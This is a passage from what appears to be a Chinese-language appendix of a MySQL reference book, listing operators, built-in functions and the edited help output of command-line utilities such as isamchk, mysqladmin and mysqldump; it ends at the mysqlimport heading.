| - expr | 数学运算 | 更改 expr 的符号。 |
| expr1 + expr2 | 算术运算 | 两个操作数相加。 |
| expr1 - expr2 | 算术运算 | 两个操作数相减。 |
| expr1 * expr2 | 算术运算 | 两个操作数相乘。 |
| expr1 / expr2 | 算术运算 | 两个操作数相除。 |


### 表 C.1 MySQL 的运算符（续）

| 运算符 | 类型 | 描述 |
|----------|------|-------------|
| *expr1* \| *expr2* | 位运算 | 对两个操作数执行按位或运算。 |
| *expr1* & *expr2* | 位运算 | 对两个操作数执行按位与运算。 |
| *expr1* << *expr2* | 位运算 | 将 longlong（BIGINT）类型的数字左移。 |
| *expr1* >> *expr2* | 位运算 | 将 longlong（BIGINT）类型的数字右移。 |
| *expr1* = *expr2* | 比较运算 | 对两个操作数进行比较。如果两个操作数相等则返回 true，否则返回 false。 |
| *expr1* <> *expr2* | 比较运算 | 对两个操作数进行比较。如果两个操作数不相等则返回 true，否则返回 false。你可以使用 != 代替 <>。 |
| *expr1* <= *expr2* | 比较运算 | 对两个操作数进行比较。如果左侧操作数小于或等于右侧操作数则返回 true。 |
| *expr1* < *expr2* | 比较运算 | 对两个操作数进行比较。如果左侧操作数小于右侧操作数则返回 true。 |
| *expr1* >= *expr2* | 比较运算 | 对两个操作数进行比较。如果左侧操作数大于或等于右侧操作数则返回 true。 |
| *expr1* > *expr2* | 比较运算 | 对两个操作数进行比较。如果左侧操作数大于右侧操作数则返回 true。 |
| *expr1* <=> *expr2* | 比较运算 | 对两个操作数进行 NULL 安全比较。如果你需要使用 NULL 值，请阅读 MySQL 手册的第 7.3.5 节。 |
| *expr1* AND *expr2* | 位运算 | 对两个操作数执行与运算。如果两个操作数都为 true 则返回 true，否则返回 false。你可以使用 && 代替 AND。 |
| *expr* BETWEEN *min* AND *max* | 比较运算 | 如果 *expr* 大于 *min* 且小于 *max*，则返回 true。 |
| BINARY *expr* | 类型转换 | 将 *expr* 转换为二进制字符串。 |
| BIT_COUNT(*n*) | 位运算 | 返回 *n* 中的位数。 |
| *expr* IN (*value_list*) | 比较运算 | 如果 *expr* 匹配 *value_list* 中以逗号分隔的任何一个值，则返回 true。你也可以使用 NOT IN。 |
| INTERVAL(*n*, *number_list*) | 比较运算 | 返回大于 *n* 的第 *n*^{th} 个值的索引。数字列表中的每个连续值必须大于前一个值。 |
| ISNULL(*expr*) | 比较运算 | 如果 *expr* 为 null 则返回 true，否则返回 false。 |
| NOT 或 ! | 位运算 | 返回 *expr* 的相反值。如果 *expr* 为 true，则返回 false，反之亦然。 |
| OR 或 \|\| | 位运算 | 对两个操作数执行或运算。如果任一操作数为 true 则返回 true，否则返回 false。 |

## MySQL 的函数

MySQL 的灵活性很大程度上来源于它支持的众多函数：

### 表 C.2 MySQL 的函数

| 函数 | 类型 | 描述 |
| --- | --- | --- |
| ABS(*expr*) | 数学函数 | 返回 *expr* 的绝对值。 |
| ACOS(*expr*) | 数学函数 | 返回 *expr* 的反余弦值。 |
| ASCII(*expr*) | 字符串函数 | 返回 *expr* 的第 1<sup>个</sup>字符的 ASCII 值。 |
| ASIN(*expr*) | 数学函数 | 返回 *expr* 的反正弦值。 |
| ATAN(*expr*) | 数学函数 | 返回 *expr* 的反正切值。 |
| ATAN2(*expr1*, *expr2*) | 数学函数 | 返回 *expr1* 和 *expr2* 的反正切值。 |
| AVG(*expr*) | 分组函数 | 用于 group by 子句中，计算 *expr* 的平均值。 |
| BENCHMARK(*count*, *expr*) | 杂项函数 | 执行 *expr* count 次。始终返回零。 |
| BIN(*expr*) | 字符串函数 | 返回 *expr* 的二进制值的字符串表示。 |
| BIT_AND(*expr*) | 分组函数 | 用于 group by 子句中，求 *expr* 中所有位的按位与结果。 |
| BIT_OR(*expr*) | 分组函数 | 用于 group by 子句中，求 *expr* 中所有位的按位或结果。 |
| CEILING(*expr*) | 数学函数 | 返回不小于 *expr* 的最小整数值。 |
| CHAR(*expr_list*) | 字符串函数 | 返回将表达式列表解释为 ASCII 值后形成的字符串。例如，表达式列表 77,121,83,81,'76' 被解释为 "MySQL"。 |
| CHAR_LENGTH | | 参见 LENGTH。 |
| CHARACTER_LENGTH | | 参见 LENGTH。 |
| COS(*expr*) | 数学函数 | 返回 *expr* 的余弦值，其中 *expr* 以弧度为单位。 |
| CONV(*N*, *from_base*, *to_base*) | 字符串函数 | 在不同进制之间转换数字。 |
| CONCAT(*expr_list*) | 字符串函数 | 返回将列表中所有表达式连接在一起组成的字符串。 |
| COT(*expr*) | 数学函数 | 返回 *expr* 的余切值。 |
| COUNT(*expr*) | 分组函数 | 用于 group by 子句中，统计 SELECT 语句检索到的非 NULL 行数。 |
| CURRENT_DATE() | 日期/时间函数 | 以 'YYYY-MM-DD' 或 YYYYMMDD 格式返回今天的日期，具体取决于函数是在字符串上下文还是数值上下文中使用。你可以使用 CURDATE 代替 CURRENT_DATE。参见 CURRENT_TIME 和 CURRENT_TIMESTAMP。 |
| CURRENT_TIME() | 日期/时间函数 | 以 'HH:MM:SS' 或 HHMMSS 格式返回今天的时间，具体取决于函数是在字符串上下文还是数值上下文中使用。你可以使用 CURTIME 代替 CURRENT_TIME。参见 CURRENT_DATE 和 CURRENT_TIMESTAMP。 |
| CURRENT_TIMESTAMP() | 日期/时间函数 | 以 'YYYY-MM-DD HH:MM:SS' 或 YYYYMMDDHHMMSS 格式返回今天的日期和时间，具体取决于函数是在字符串上下文还是数值上下文中使用。你可以使用 NOW 和 SYSDATE 代替 CURRENT_TIMESTAMP。参见 CURRENT_DATE 和 CURRENT_TIME。 |
| DATABASE() | 杂项函数 | 返回当前数据库名称。 |
| DATE_ADD(date, INTERVAL expr type) | 日期/时间函数 | 返回在指定日期上加上指定时间间隔后的日期。更多信息请参阅 MySQL 文档。你可以使用 ADDDATE 代替 DATE_ADD。用法示例参见清单 14.2。参见 DATE_SUB。 |
| DATE_SUB(date, INTERVAL expr type) | 日期/时间函数 | 返回在指定日期上减去指定时间间隔后的日期。更多信息请参阅 MySQL 文档。你可以使用 SUBDATE 代替 DATE_SUB。参见 DATE_ADD。 |
| DATE_FORMAT(date, format) | 日期/时间函数 | 根据 format 格式化 date。更多详情请参阅 MySQL 文档。参见 TIME_FORMAT。 |
| DAYNAME(date) | 日期/时间函数 | 返回 date 对应的星期名称。 |
| DAYOFWEEK(date) | 日期/时间函数 | 返回 date 对应的星期索引。零对应星期日。使用此函数以符合 ODBC 标准。参见 WEEKDAY。 |
| DAYOFMONTH(date) | 日期/时间函数 | 返回 date 对应的月份中的天数，范围为 1 到 31。 |
| DAYOFYEAR(date) | 日期/时间函数 | 返回 date 对应的年份中的天数，范围为 1 到 366。 |
| DEGREES(expr) | 数学函数 | 返回将其参数从弧度转换为角度后的值。 |
| ELT(expr, expr_list) | 字符串函数 | 返回表达式列表中由 expr 索引的元素。例如，select ELT(2, 'Yes', 'No') 的结果为 "No"。参见 FIELD 和 FIND_IN_SET。 |
| ENCRYPT(*string* [,salt]) | 杂项函数 | 使用 UNIX crypt() 系统调用加密 *string*。可选的 *salt* 参数应为一个包含两个字符的字符串。 |
| EXP(*expr*) | 数学函数 | 返回 e（自然对数的底数）的 *expr* 次幂的值。 |
| FIELD(*expr*, *expr_list*) | 字符串函数 | 返回 *expr* 在表达式列表中的索引。例如，select FIELD('No', 'Yes', 'No') 的结果为 2。参见 ELT 和 FIND_IN_SET。 |
| FIND_IN_SET(*expr*, *list*) | 字符串函数，集合函数 | 返回 *expr* 在 *list* 中的索引。此函数旨在与 SET 类型的数据库字段配合使用。例如，SELECT FIND_IN_SET('No','Yes','No'); 的结果为 2。参见 ELT 和 FIELD。 |
| FORMAT(*number*, *decimals*) | 杂项函数 | 将 *number* 格式化为 '#,###,###.##' 的形式，并保留 *decimals* 位小数。 |
| FROM_UNIXTIME(*unix_timestamp* [, *format*]) | 日期/时间函数 | 将 unix_timestamp 参数表示为 'YYYY-MM-DD HH:MM:SS' 或 YYYYMMDDHHMMSS 格式的值返回（如果指定了 *format* 则使用该格式），具体取决于函数是在字符串上下文还是数值上下文中使用。参见 UNIX_TIMESTAMP。 |


### 表 C.2 MySQL 函数（续）

| 函数 | 类型 | 描述 |
| --- | --- | --- |
| HOUR(*time*) | 日期/时间 | 返回 *time* 的小时部分，范围为 0 到 23。 |
| IF(*expr1*, *expr2*, *expr3*) | 控制 | 如果 *expr1* 为真，则返回 *expr2*，否则返回 *expr3*。此函数在处理布尔字段时，可用于返回类似“是”或“否”的字符串。 |
| IFNULL(*expr1*, *expr2*) | 控制 | 如果 *expr1* 为 NULL，则返回 *expr2*，否则返回 *expr1*。此函数可用于在字段为 NULL 时分配默认值。 |
| INSERT(*expr*, *pos*, *length*, *replacement*) | 字符串 | 返回 *expr*，其中从 *pos* 开始的、长度为 *length* 的子串被 *replacement* 替换。 |
| FLOOR(*expr*) | 数学 | 返回不大于 *expr* 的最大整数值。 |
| FROM_DAYS(*day_number*) | 日期/时间 | 给定自第 0 年以来的天数，返回一个 DATE 值。 |
| GET_LOCK(*lock_name*, *timeout*) | 杂项 | 如果成功获取到名为 *lock_name*、超时时间为 *timeout* 秒的锁，则返回 true。如果尝试超时，则返回 false。返回 NULL 表示发生错误。 |
| GREATEST(*expr1*, *expr2*) | 数学 | 返回 *expr1* 和 *expr2* 中较大的那个。 |
| HEX(*expr*) | 字符串 | 返回 *expr* 的十六进制值的字符串表示。 |
| INSTR(*target*, *substr*) | 字符串 | 返回 *substr* 在 *target* 中首次出现的位置。 |
| LEAST(*expr1*, *expr2*) | 数学 | 返回 *expr1* 和 *expr2* 中较小的那个。 |
| LEFT(*expr*, *length*) | 字符串 | 返回 *expr* 最左边的 *length* 个字符。另请参见 RIGHT、MID 和 SUBSTRING。 |
| LENGTH(*expr*) | 字符串 | 返回 *expr* 的长度。你可以使用 OCTET_LENGTH、CHAR_LENGTH 或 CHARACTER_LENGTH 代替 LENGTH。 |
| *expr1* LIKE *expr2* [ESCAPE '*char*'] | 字符串 | 如果两个操作数相似，则返回 true。可以使用简单的通配符进行模式匹配，ESCAPE 字符（通常是反斜杠）告诉 MySQL 使用通配符字符的字面意思。你也可以使用 NOT LIKE。更多信息请参见第 9 章“模式匹配”。另请参见 RLIKE 函数。 |
| LOAD_FILE(*file_name*) | 字符串 | 返回 *file_name* 的内容。 |
| LOCATE(*expr*, *target* [, *pos*]) | 字符串 | 返回 *expr* 在 *target* 中首次出现的位置，可选择从 *pos* 位置开始查找。另请参见 POSITION。 |
| LOG(*expr*) | 数学 | 返回 *expr* 的自然对数。 |
| LOG10(*expr*) | 数学 | 返回 *expr* 的以 10 为底的对数。 |
| LOWER(*expr*) | 字符串 | 返回 *expr*，其中所有字母转为小写。你可以使用 LCASE 代替 LOWER。另请参见 UPPER。 |
| LPAD(*expr*, *length*, *pad_string*) | 字符串 | 返回一个使用 *pad_string* 在左侧填充至 *length* 个字符的字符串。另请参见 RPAD。 |
| LTRIM(*expr*) | 字符串 | 返回 *expr*，其中前导空格字符被移除。另请参见 RTRIM 和 TRIM。 |
| MAKE_SET(*n*, *expr_list*) | 字符串，集合 | 返回一个由 *expr_list* 中对应于 *n* 中已设置位的值组成的 SET（逗号分隔的值列表）。例如，`select MAKE_SET(1\|3, 'One', 'Two', 'Three');` 的结果是 'One,Three'。 |
| MAX(*expr*) | 分组 | 在 GROUP BY 子句中使用，用于查找 *expr* 的最大值。 |
| MAX | 数学 | 另请参见 GREATEST。 |
| MID(*expr*, *pos*, *length*) | 字符串 | 返回 *expr* 中从 *pos* 位置开始的、长度为 *length* 个字符的字符串。 |
| MIN(*expr*) | 分组 | 在 GROUP BY 子句中使用，用于查找 *expr* 的最小值。 |
| MIN | 数学 | 另请参见 LEAST。 |
| MINUTE(*time*) | 日期/时间 | 返回 *time* 的分钟部分，范围为 0 到 59。 |
| MOD(*expr1*, *expr2*) | 数学 | 返回 *expr1* 除以 *expr2* 的余数。你可以使用 *expr1* % *expr2* 代替 MOD 函数。 |
| MONTH(*date*) | 日期/时间 | 返回 *date* 的月份部分，范围为 1 到 12。 |
| MONTHNAME(*date*) | 日期/时间 | 返回 *date* 所在月份的名称。 |
| NOW |  | 另请参见 CURRENT_TIMESTAMP。 |
| OCT(*expr*) | 字符串 | 返回 *expr* 的八进制值的字符串表示。 |
| OCTET_LENGTH |  | 另请参见 LENGTH。 |
| PASSWORD(*plaintext*) | 杂项 | 从明文 *plaintext* 计算密码字符串。 |
| PERIOD_ADD(*period*, *months*) | 日期/时间 | 返回一个 YYYYMM 字符串，其值为在 *period* 上加上指定月数 *months* 的结果。*Period* 指定为 YYMM 或 YYYYMM。 |
| PERIOD_DIFF(*period1*, *period2*) | 日期/时间 | 返回 *period1* 和 *period2* 之间的月数差。期间指定为 YYMM 或 YYYYMM。 |
| PI() | 数学 | 返回圆周率 pi，约等于 3.141593。 |
| POSITION(*expr* IN *target*) | 字符串 | 返回 *expr* 在 *target* 中首次出现的位置。另请参见 LOCATE。 |
| POWER(*expr1*, *expr2*) | 数学 | 返回 *expr1* 的 *expr2* 次幂的值。你可以使用 POW 代替 POWER。 |
| QUARTER(*date*) | 日期/时间 | 返回 *date* 所在年份的季度，范围为 1 到 4。 |
| RADIANS(*expr*) | 数学 | 返回其参数从角度转换为弧度的结果。 |
| RAND([*expr*]) | 数学 | 返回一个范围在 0 到 1.0 之间的随机浮点值。如果提供了 *expr*，它将用作种子值。注意：不要在 GROUP BY 子句的字段表达式中使用包含 RAND 的列。 |
| RELEASE_LOCK(*lock_name*) | 杂项 | 释放名为 *lock_name* 的锁。如果成功释放则返回 true，如果当前进程未创建该锁则返回 false，或者如果锁不存在则返回 NULL。 |
| REPEAT(*expr*, *count*) | 字符串 | 返回一个包含 *expr* 重复 *count* 次的字符串。 |
| REPLACE(*target*, *string*, *replacement*) | 字符串 | 返回 *target*，其中所有 *string* 实例都被 *replacement* 替换。 |
| REVERSE(*expr*) | 字符串 | 返回 *expr*，其中字符顺序反转。 |
| RIGHT(*expr*, *length*) | 字符串 | 返回 *expr* 最右边的 *length* 个字符。另请参见 LEFT、MID 和 SUBSTRING。 |
| *expr1* RLIKE *expr2* | 字符串 | 如果两个操作数相似，则返回 true。表达式中可以使用正则表达式（更多信息请参见第 9 章“模式匹配”）。REGEXP 是 RLIKE 的同义词。你也可以使用 NOT RLIKE。另请参见 LIKE 函数。 |
| ROUND(*expr* [, *decimals*]) | 数学 | 返回参数 *expr* 四舍五入为整数的结果。可选地，你可以指定需要保留的小数部分位数。 |
| RPAD(*expr*, *length*, *pad_string*) | 字符串 | 返回一个使用 *pad_string* 在右侧填充至 *length* 个字符的字符串。另请参见 LPAD。 |
| RTRIM(*expr*) | 字符串 | 返回 *expr*，其中尾随空格字符被移除。另请参见 LTRIM 和 TRIM。 |
| SECOND(*time*) | 日期/时间 | 返回 *time* 的秒部分，范围为 0 到 59。 |
| SEC_TO_TIME(*seconds*) | 日期/时间 | 返回将 *seconds* 转换为小时、分钟和秒的结果，格式为 'HH:MM:SS' 或 HHMMSS，具体取决于函数是用于字符串上下文还是数值上下文。另请参见 TIME_TO_SEC。 |
| SESSION_USER() |  | 另请参见 USER。 |
| SIGN(*expr*) | 数学 | 根据 *expr* 是负数、零还是正数，返回参数的符号为 -1、0 或 1。 |
| SIN(*expr*) | 数学 | 返回 *expr* 的正弦值，其中 *expr* 以弧度为单位给出。 |
| SOUNDEX(*expr*) | 字符串 | 返回 *expr* 的 soundex 值。使用 `LEFT(SOUNDEX(*expr*), 4)` 获取“标准”soundex 字符串。 |
| SPACE(*count*) | 字符串 | 返回一个由 *count* 个空格字符组成的字符串。 |
| SQRT(*expr*) | 数学 | 返回 *expr* 的非负平方根。 |
| STDDEV(*expr*) | 分组 | 在 GROUP BY 子句中使用，用于查找 *expr* 的标准差。你可以使用 STD 代替 STDDEV。 |
| STRCMP(*expr1*, *expr2*) | 字符串 | 比较两个字符串。如果字符串相同则返回 0，如果第一个较小则返回 -1，如果第二个较小则返回 1。 |
| SUBSTRING(*expr*, *pos* [, *length*]) | 字符串 | 返回 *expr* 中从 *pos* 位置（可选）开始的、长度为 *length* 个字符的字符串。 |


### 表 C.2 MySQL 函数（续）

| 函数 | 类型 | 描述 |
| --- | --- | --- |
| SUBSTRING(*expr* FROM *length*) | 字符串 | 返回 *expr* 最右侧的 *length* 个字符。此语法源自 ANSI SQL 92。参见 LEFT、MID、RIGHT 和 SUBSTRING。 |
| SUBSTRING_INDEX(*expr*, *delimeter*, *count*) | 字符串 | 返回 *expr* 中第 *count* 次出现的分隔符 *delim* 之后的子串。如果 count 为负值，则返回最后一个分隔符（从右数起）右侧的所有内容。 |
| SUM(*expr*) | 分组查询 | 用于分组子句中，以计算 *expr* 的总和。 |
| SYSDATE() | | 参见 CURRENT_TIMESTAMP。 |
| SYSTEM_USER() | | 参见 USER。 |
| TAN(*expr*) | 数学 | 返回 *expr* 的正切值，其中 *expr* 以弧度表示。 |
| TIME_TO_SEC(*time*) | 日期/时间 | 返回 *time* 转换为秒后的值。参见 SEC_TO_TIME。 |
| TO_DAYS(*date*) | 日期/时间 | 返回自公元 0 年以来 *date* 的天数。 |
| TIME_FORMAT(*time*, *format*) | 日期/时间 | 根据 *format* 格式化 *time*。更多信息请参见 MySQL 文档。参见 DATE_FORMAT。 |
| TRIM(*expr*) | 字符串 | 返回删除了前导和尾随空格的 *expr*。 |
| TRIM(LEADING [string] FROM expr) | 字符串 | 返回从开头删除了 string 的 expr。您可以使用 BOTH 或 TRAILING 代替 LEADING。如果未指定 string，则删除空格。 |
| TRUNCATE(expr1, expr2) | 数学 | 返回 expr1，截断到 expr2 位小数。 |
| UNIX_TIMESTAMP([date]) | 日期/时间 | 如果未指定 date，则返回自 '1970-01-01 00:00:00' GMT（UNIX 起始时间）以来的秒数。否则，返回从 UNIX 起始时间到 date 的秒数。参见 FROM_UNIXTIME。 |
| USER() | 其他 | 返回当前的 MySQL 用户名。您可以使用 SYSTEM_USER 或 SESSION_USER 代替 USER。 |
| UPPER(expr) | 字符串 | 返回所有字母转换为大写的 expr。您可以使用 UCASE 代替 UPPER。参见 LOWER。 |
| WEEK(date [,first]) | 日期/时间 | 返回 date 所在的周，范围为 0 到 52。默认情况下，星期日被视为一周的第一天，除非使用 first 参数 1，此时星期一成为一周的第一天。 |
| WEEKDAY(*date*) | 日期/时间 | 返回 *date* 的星期索引。0 对应星期一。 |
| VERSION() | 其他 | 返回 MySQL 的版本。 |
| YEAR(*date*) | 日期/时间 | 返回 *date* 的年份，范围为 1000 到 9999。 |

## MySQL 实用程序

MySQL 发行版包含许多实用程序（位于 `/usr/local/mysql/bin`）。以下列表确保您了解它们：

- **comp_err**—此程序生成特定语言的消息文件。
- **isamchk**—此程序用于描述、检查和修复 ISAM 表。它也用于优化您的表。

### 列表 C.1 isamchk --help 的编辑结果

```
用法: ./isamchk [选项] 表[.ISM]

-a, --analyze           分析键的分布。将使 MySQL 中的一些连接更快。
-#, --debug=...         输出调试日志。通常为 'd:t:o,filename`
-d, --description       打印有关表的一些信息。
-e, --extend-check      非常彻底地检查表。仅在极端情况下使用此选项，因为 isamchk 通常无需此开关也能发现所有错误。
-f, --force             覆盖旧的临时文件。如果在检查表时使用 -f（不带 -r 运行 isamchk），isamchk 将自动使用 -r 重启对任何错误表的处理。
-?, --help              显示此帮助并退出。
-i, --information       打印有关表的统计信息。
-k, --keys-used=#       与 '-r' 一起使用。告诉 ISAM 仅更新前 # 个键。这可用于加快插入速度！
-l, --no-symlinks       修复时不跟随符号链接。通常 isamchk 修复符号链接指向的表。
-q, --quick             与 -r 一起使用以获得更快的修复。（不触及数据文件。）可以提供第二个 '-q' 来强制 isamchk 修改原始数据文件。
-r, --recover           可以修复几乎所有问题，除了不唯一的唯一键。
-o, --safe-recover      使用旧的恢复方法；比 '-r' 慢，但可以处理 '-r' 无法处理的一些情况。
-O, --set-variable var=option
                        更改变量的值。
-s, --silent            仅打印错误。可以使用两个 -s 使 isamchk 非常安静。
-S, --sort-index        排序索引块。这会加快应用程序中的 'read-next' 速度。
-R, --sort-records=#    根据索引对记录进行排序。这会使您的数据更加局部化，并可能加快速度。（第一次排序可能非常慢！）
-u, --unpack            解包使用 pack_isam 打包的文件。
-v, --verbose           打印更多信息。可与 -d 和 -e 一起使用。使用多个 -v 以获得更详细的信息！
-V, --version           打印版本并退出。
-w, --wait              如果表被锁定，则等待。
```

选项 `--set-variable`（`-O`）的可能变量：

| 变量 | 当前值 |
|----------|---------------|
| key_buffer_size | 520192 |
| read_buffer_size | 262136 |
| write_buffer_size | 262136 |
| sort_buffer_size | 2097144 |
| sort_key_blocks | 16 |
| decode_bits | 9 |

- **isamlog**—此程序与 mysql 的 `--log-isam` 选项一起使用。isamlog 如列表 C.2 所示。

### 列表 C.2 isamlog 的编辑结果—

如果未给出文件名，则使用 isam.log。

```
用法: ./isamlog [-?iruviV] [-c #] [-f #] [-F filepath/]
              [-o #] [-R file recordpos]
              [-w write_file] [日志文件名 [表 ...]]
```

选项：

```
      -c "仅执行 # 条命令"
      -f "最大打开文件数"
      -F "文件路径"
      -i "额外信息"
      -o "偏移量"
      -p # "从路径中删除 # 个组成部分"
      -r "恢复"
      -R "文件记录位置"
      -u "更新"
      -v "详细"
      -V "版本"
      -w "写入文件"
```

可以提供第二个和第三个 '-v' 以获得更详细的信息。通常执行更新（-u）。

如果执行恢复，则所有写入以及所有可能的更新和删除都会进行，并且仅计算错误。

如果将表名作为参数提供，则仅更新这些表。

- **msql2mysql**—此程序尝试通过用 MySQL 等效函数替换 msql 函数名，将 msql C 程序转换为 MySQL C 程序。

- **mysql**—MySQL 数据库引擎的命令行界面。它还提供非交互模式，以便在批处理文件中使用 MySQL。列表 C.3 显示了可用的选项。

### 列表 C.3 mysql --help 的编辑结果

```
用法: mysql [选项] [数据库]
```

```
-A, --no-auto-rehash
    不自动重新哈希。必须使用 'rehash' 来获取表和字段补全。这使得 mysql 启动更快。
-B, --batch
    使用制表符作为分隔符打印结果，每行占一行。不使用历史记录文件。
-C, --compress
    在服务器/客户端协议中使用压缩。
-T, --debug-info
    退出时打印一些调试信息。
-e, --execute=...
    执行命令并退出。（输出类似 --batch）
-f, --force
    即使发生 sql 错误也继续。
-?, --help
    显示此帮助并退出。
-h, --host=...
    连接到主机。
-n, --unbuffered
    每次查询后刷新缓冲区。
-O, --set-variable var=option
    为变量赋值。--help 列出变量
-o, --one-database
    仅更新默认数据库。这对于跳过更新日志中对其他数据库的更新很有用。
-p[password], --password[=...]
    连接到服务器时使用的密码。如果未提供密码，则从终端提示输入。
-P, --port=...
    用于连接的端口号。
-q, --quick
    不缓存结果，逐行打印。如果输出被挂起，这可能会使服务器变慢。不使用历史记录文件。
-r, --raw
    不转换地写入字段。与 --batch 一起使用
-s, --silent
    保持更安静。
```


### 清单 C.4 mysqlaccess—help 的编辑结果

用法：`mysqlaccess [host [user [db]]] OPTIONS`

- `-?`, `--help`
  - 显示此帮助屏幕并退出
- `-v`, `--version`
  - 打印程序 `mysqlaccess` 的相关信息
- `-u`, `--user=#`
  - 登录数据库的用户名
- `-p`, `--password=#`
  - 验证用户的密码
- `-h`, `--host=#`
  - 主机的名称或 IP 地址
- `-d`, `--db=#`
  - 数据库名称
- `-U`, `--superuser=#`
  - 以超级用户身份连接
- `-P`, `--password=#`
  - 超级用户的密码
- `-H`, `--rhost=#`
  - 要连接的远程 MySQL 服务器
- `-L`, `--skip-line-numbers`
  - 不为错误信息写入行号。
- `-S`, `--socket=...`
  - 用于连接的套接字文件。
- `-t`, `--table=...`
  - 以表格格式输出。
- `-u`, `--user=#`
  - 登录用户，如果不是当前用户则指定。
- `-v`, `--verbose`
  - 输出更多详细信息（`-v -v -v` 可获得表格输出格式）。
- `-V`, `--version`
  - 输出版本信息并退出。
- `-E`, `--vertical`
  - 以垂直方式打印查询输出（行）。
- `-w`, `--wait`
  - 连接中断时等待并重试。
- `--old_server`
  - 连接旧版 MySQL 服务器（v3.21 之前），该版本尚不支持完整的 WHERE 子句。
- `-b`, `--brief`
  - 单行表格报告
- `-t`, `--table`
  - 以表格格式报告
- `--relnotes`
  - 打印发行说明
- `--plan`
  - 打印未来版本的建议/想法
- `--howto`
  - 运行 'mysqlaccess' 的一些示例
- `--debug=N`
  - 进入调试级别 N（0..3）
- `--copy`
  - 从原始授权表重新加载临时授权表
- `--preview`
  - 在（临时）授权表中进行更改后，显示权限的差异
- `--commit`
  - 将授权规则从临时表复制到授权表（！别忘了执行 mysqladmin reload）
- `--rollback`
  - 撤销对授权表的最后更改

注意：

- 至少必须指定用户和数据库（即使使用通配符）。
- 如果未指定主机，则假定为 `localhost`。
- 主机、用户和数据库允许使用通配符（`*`、`?`、`%`、`_`），但请确保从 shell 中对其进行转义！！（即，输入 `\*` 或 `'*'`）

选项 `--set-variable`（`-O`）的可能变量：

| 变量 | 当前值 |
| --- | --- |
| `max_allowed_packet` | 251658241 |
| `net_buffer_length` | 163841 |

`mysqlaccess` — 这个 Perl 脚本列出用户对特定数据库的权限。

---

**mysqladmin** — 该程序管理数据库引擎的各个方面。其中最重要的是 reload 选项，用于在用户权限发生更改后使用。

### 清单 C.5 mysqladmin—help 的编辑结果

用法：`./mysqladmin [OPTIONS] command command....`

其中 command 为以下一个或多个（命令可缩写）：

| 命令 | 描述 |
| --- | --- |
| `create databasename` | 创建新数据库 |
| `drop databasename` | 删除数据库 |
| `extended-status` | 显示扩展状态消息 |
| `flush-hosts` | 刷新所有缓存的主机 |
| `flush-logs` | 刷新所有日志 |
| `flush-tables` | 刷新所有表 |
| `flush-privileges` | 重新加载授权表 |
| `kill id,id,...` | 终止 MySQL 线程 |
| `password new-password` | 更改密码 |
| `ping` | 检查 mysqld 是否正在运行 |
| `processlist` | 显示活动线程列表 |
| `reload` | 重新加载授权表 |
| `refresh` | 刷新服务器表和日志文件 |
| `shutdown` | 关闭服务器 |
| `status` | 显示服务器的状态消息 |
| `variables` | 打印可用变量 |
| `version` | 从服务器获取版本信息 |

选项：

- `-#`, `--debug=...`
  - 输出调试日志。通常格式为 `d:t:o,filename`
- `-f`, `--force`
  - 删除表时不询问确认。即使出错也继续执行。
- `-?`, `--help`
  - 显示此帮助并退出
- `-C`, `--compress`
  - 在服务器/客户端协议中使用压缩
- `-h`, `--host=#`
  - 连接到指定主机
- `-p`, `--password[=...]`
  - 连接到服务器时使用的密码。如果未给出密码，则从终端提示输入。
- `-P`, `--port=...`
  - 用于连接的端口号
- `-i`, `--sleep=sec`
  - 反复执行命令，每次之间间隔指定秒数
- `-s`, `--silent`
  - 无法连接到服务器时静默退出
- `-S`, `--socket=...`
  - 用于连接的套接字文件
- `-t`, `--timeout=...`
  - 连接超时时间
- `-u`, `--user=#`
  - 登录用户，如果不是当前用户则指定
- `-V`, `--version`
  - 输出版本信息并退出
- `-w`, `--wait[=retries]`
  - 连接中断时等待并重试

---

**mysqlbug** — 该程序创建一个模板，您可以用它来报告 MySQL 中的 bug。

**mysqldump** — 该程序通过将 SQL 语句写入 STDOUT 来导出数据库内容。如果将输出重定向到文件，您将得到数据库的文本版本。经过少量修改后，数据可以迁移到任何符合 SQL 标准的数据库中。

### 清单 C.6 mysqldump --help 的编辑结果

导出 mysql 数据库或表的定义和数据

用法：`./mysqldump [OPTIONS] database [tables]`

- `-#`, `--debug=...`
  - 输出调试日志。通常格式为 `d:t:o,filename`
- `-?`, `--help`
  - 显示此帮助并退出
- `-c`, `--complete-insert`
  - 使用完整的 INSERT 语句
- `-C`, `--compress`
  - 在服务器/客户端协议中使用压缩
- `-e`, `--extended-insert`
  - 允许使用新的、更快的 INSERT 语法
- `--add-drop-table`
  - 在每个 CREATE 之前添加 'drop table'
- `--add-locks`
  - 在 INSERT 语句周围添加锁
- `--allow-keywords`
  - 允许创建作为关键字的列名
- `--delayed`
  - 使用 INSERT DELAYED 插入行
- `-F`, `--flush-logs`
  - 在开始导出前刷新服务器的日志文件
- `-f`, `--force`
  - 即使出现 SQL 错误也继续执行
- `-h`, `--host=...`
  - 连接到指定主机
- `-l`, `--lock-tables`
  - 锁定所有表为只读
- `-t`, `--no-create-info`
  - 不写入建表信息
- `-d`, `--no-data`
  - 不写入行数据信息。
- `-O`, `--set-variable var=option`
  - 为变量赋值。--help 列出所有变量。
- `--opt`
  - 等同于 --quick --add-drop-table --add-locks --extended-insert --use-locks
- `-p`, `--password[=...]`
  - 连接到服务器时使用的密码。如果未给出密码，则从终端提示输入。
- `-P`, `--port=...`
  - 用于连接的端口号
- `-q`, `--quick`
  - 不缓冲查询，直接导出到标准输出
- `-S`, `--socket=...`
  - 用于连接的套接字文件
- `-T`, `--tab=...`
  - 为每个表创建制表符分隔的文本文件到指定路径。（创建 .sql 和 .txt 文件）

注意：仅当 mysqldump 与 mysqld 守护进程运行在同一台机器上时，此选项才有效。

- `-u`, `--user=#`
  - 登录用户，如果不是当前用户则指定
- `-v`, `--verbose`
  - 打印各阶段的信息
- `-V`, `--version`
  - 输出版本信息并退出
- `-w`, `--where=`
  - 仅导出选定的记录；必须加引号！

将 `-T (--tab=...)` 与 `--fields-...` 一起使用：

- `--fields-terminated-by=...`
  - 文本文件中的字段以 ... 结尾
- `--fields-enclosed-by=...`
  - 导入文件中的字段以 ... 包围
- `--fields-optionally-enclosed-by=...`
  - 导入文件中的字段可选择以 ... 包围
- `--fields-escaped-by=...`
  - 导入文件中的字段以 ... 转义
- `--lines-terminated-by=...`
  - 导入文件中的行以 ... 结尾

选项 `--set-variable`（`-O`）的可能变量：

| 变量 | 当前值 |
| --- | --- |
| `max_allowed_packet` | 25165824 |
| `net_buffer_length` | 1047551 |

---

**mysqlimport** — 该程序从各种格式的文本文件中加载数据。

### 清单 C.7 mysqlimport—help 的编辑结果

